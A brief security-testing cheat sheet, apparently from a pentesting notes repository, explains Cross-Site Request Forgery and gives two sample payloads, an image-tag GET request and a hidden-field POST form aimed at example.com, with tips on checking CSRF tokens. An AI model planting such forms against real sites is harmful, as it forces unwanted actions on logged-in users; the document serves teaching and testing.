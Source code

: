 # 🔐 Cross-Site Request Forgery (CSRF)

## Overview
Cross-Site Request Forgery (CSRF) forces a user to execute unwanted actions on a web application in which they are authenticated.

## Steps to Test
1. Create a simple CSRF payload:
    ```html
    <img src="http://example.com/change?param=value">
    ```
2. Use a CSRF form POST method:
    ```html
    <form action="http://example.com/change" method="POST">
        <input type="hidden" name="param" value="value">
        <input type="submit" value="Submit">
    </form>
    ```

## Tips
- Test actions that change user data (e.g., password change, email update).
- Verify if CSRF tokens are implemented and correctly validated.
- Use tools like Burp Suite to test CSRF vulnerabilities.

